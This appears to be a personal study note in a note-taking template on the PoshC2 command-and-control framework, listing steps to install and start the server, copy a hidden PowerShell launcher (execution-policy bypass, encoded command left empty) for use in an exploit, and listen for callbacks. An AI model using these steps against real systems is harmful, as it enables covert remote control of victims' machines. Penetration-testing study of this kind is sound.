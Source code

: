 ```yaml
---
creation date: November 8th 2023
last modified date: November 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[poshc2]]  
___

## Description:  

```
sudo apt install poshc2

edit config with (make sure IPs and ports are correct):
posh-config

Start server:
posh-server

Copy payload (use this in your exploit):
powershell -exec bypass -Noninteractive -windowstyle hidden -e ''

#or use one of the dropper exe files to use in your payload

Split your terminal horizontally and Watch for connections back:
posh -u <username>


```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 8th 2023 (11:54 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
